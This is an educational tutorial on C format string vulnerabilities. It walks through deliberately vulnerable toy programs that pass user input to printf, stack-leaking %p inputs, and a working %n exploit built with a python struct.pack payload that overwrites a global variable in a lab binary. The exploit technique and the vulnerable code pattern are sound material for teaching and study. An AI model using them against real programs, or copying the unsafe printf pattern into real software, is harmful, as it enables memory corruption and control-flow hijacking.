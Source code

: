 # Format String Vulnerability

Format string vulnerabilities silly bug that is due to the poor coding practice
of the programmer. If an programmer passes an attacker controlled buffer as an
argument to a `printf` call (or any format string related function, e.g `sprintf,
fprintf`), attacker can perform write to arbitrary memory address.  

To understand what I am talking about, take a look at the below example.

```C 
int main(int argc, char** argv) { 
    char buffer[100]; 
    strcpy(buffer, argv[1]); 
    printf(buffer); 
    return 0; 
} 
```

`printf` takes variable number of
arguments and the `format specifier` identifies how many arguments it **should**
access and what kind of data is stored onto that. To read how it takes variable
number of argument refer
[this](https://www.tutorialspoint.com/cprogramming/c_variable_arguments.htm).
And to read more about `format specifiers` refer
[this](http://www.cplusplus.com/reference/cstdio/printf/).

In the above mentioned program if you pass **sane** input like your name. e.g
`./string0 Rohit`. You will get your name on the output.  But attacker do not
always thinks of passing the sane output to the program.  Suppose you passed, lets
say `%x` to the program, since attackers knows that first argument to the printf must
be format specifier, if it is not supplied internally( that is through the
program), a malformed format specifier may list that out the content on the
stack.

:astonished: Attacker can the see the content of STACK.

### See Stack's Content
Lets see that in action. Try doing this:
```bash
$ ./string0 "%p %p %p %p %p"
0xffffd7c9 0x64 0xf0b5ff 0xffffd58e 0x1
$ 
```
Hey what just happened? Attacker's mind  :facepunch: you in the face.
`%p` is used to print the content of the memory in hexadecimal and that just
happened. Attacker fooled **printf** to print the content of memory by not giving
sane input but `format specifier` as input. This is termed as format string
vulnerability.

### What else we can do?
It This is not just limited to displaying the content in memory. This vulnerability
allows the attacker to perform writes to arbitrary memory.
To understand how the writes are actually happening, we need to understand the
concept of `%n`. This format specifier allows the printf to write to memory
location specified by one of its argument.
e.g  
```C
printf("rohit%n", &i);
printf("%d", i);   //outputs to 5 == len(rohit)
```
In brief `%n` writes the number of characters printed so far get saved to `i`.  

Now we have two things in mind:
* Copy our own format specifier in printf.
* Write to some memory location onto stack(or some variable).

### Towards actual exploit. :metal:
Lets try to identify after how many 4 bytes memory locations, we are able to get
back to the buffer. So inorder to do it. I will put say `AAAA` in the beginning
of the exploit string. e.g  
``./string1 'AAAA %p %p %p %p %p %p %p %p %p %p %p %p'``
Output  
`AAAA 0xffffd7af 0x64 0xf0b5ff 0xffffd57e 0x1 0xc2 0xffffd674 0xffffd57e
0xffffd680 0x41414141 0x20702520 0x25207025`
Notice, `0x41414141` third to last. This is nothing but the hex of ASCII('A').
This means we reached the buffer after 9 %p and 10th one is buffer location. 
You may need to do several hit and trials in order to identify starting location
of buffer and it might not be same as mine (10th location).

```C
#include<stdio.h>
#include<string.h>
#include<stdio.h>

int myvar;

int main(int argc, char** argv)
{
    char buffer[100];
    gets(buffer);
    printf(buffer);
    if(myvar)
        printf("Cool you changed it .. :) ");
    return 0;
}
```
Now I will demonstrate Change of control flow using the techniques we have just
learned. Consider the above mentioned code. Find out the address of the buffer
from the current stack location using format string vuln.    
`echo -e 'AAAA %p %p %p %p %p %p %p %p %p %p %p %p' | ./string1`  
Output:  
`AAAA 0x1 0xf7ffd918 0xf0b5ff 0xffffd59e 0x1 0xc2 0xffffd694 0xffffd59e
0xffffd69c 0x41414141 0x20702520 0x25207025`.  
Hey its again the same the 10th location. :metal:  

Now consider,  
`echo -e 'AAAA %p %p %p %p %p %p %p %p %p %n' | ./string1`
This above command will write `len(AAAA %p %p %p %p %p %p %p %p %p ) --> 32` to
to the memory pointed by the 10th argument. But the 10th argument is nothing but
the `0x41414141` so it will try to write onto the memory address pointed by
`0x41414141` the value 32. Since it could be **read-only** memory, so you might
get the `Segmentation Fault`. What about putting some sensible address onto the
buffer instead of `0x41414141`. If we do so, then %n will write to that memory
pointed by that location.
Why not getting the address of `myvar`. Since it is global, we can get the
address of globals before the running the program.  
We will use , `objdump -t ./string1 | grep myvar`    
`0804a028 g     O .bss	00000004              myvar`    
The first data column contains the address for the `myvar`.   


**Crafting the exploit** to change the variable content then change the control
flow.
`` echo -e `python -c "import struct; print struct.pack('<I',0x0804a028)"`"%p %p
%p %p %p %p %p %p %p %n" | ./string1``
Output:
``(0x1 0xf7ffd918 0xf0b5ff 0xffffd59e 0x1 0xc2 0xffffd694 0xffffd59e 0xffffd69c
Cool you changed it .. :)``

:cool: We have exploited the binary.

#### What we have learnt with this?
Format string vulnerability allows to write to arbitrary location in programs
memory.





